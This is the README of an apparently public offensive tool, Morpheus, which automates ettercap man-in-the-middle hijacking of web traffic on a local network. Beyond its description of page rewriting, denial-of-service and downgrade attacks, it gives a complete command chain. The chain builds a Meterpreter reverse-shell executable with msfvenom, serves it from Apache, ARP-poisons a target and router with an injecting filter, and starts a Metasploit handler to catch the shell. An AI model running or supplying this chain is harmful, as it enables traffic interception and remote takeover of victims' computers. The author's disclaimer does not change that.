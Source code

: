 [![Version](https://img.shields.io/badge/MORPHEUS-1.0-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-developing-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.0-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    morpheus.sh framework automates tcp/ip packet manipulation tasks by using
    ettercap filters to manipulate tcp/udp requests under MitM attacks replacing
    the http packet contents by our own contents befor sending the http packet
    back to the host that have request for it (tcp/ip hijacking)

    work floow:
    1º - poison local lan (mitm)
    2º - target requests webpage
    3º - attacker modifies webpage response
    4º - modified packet forward back to target

# What can we acomplish by using ettercap filters?
    morpheus ships with a collection of etter filters writen be me to acomplish various tasks:
    replacing images in webpage, replace text in webpages, inject payloads using html <form> tag
    and denial-of-service attack (drop,kill packets from source), https/ssh downgrade attacks, also
    gives you the ability to build/compile your etter filter from scratch and lunch it truth morpheus.

# Dependencies
    ettercap, zenity

# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe



# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
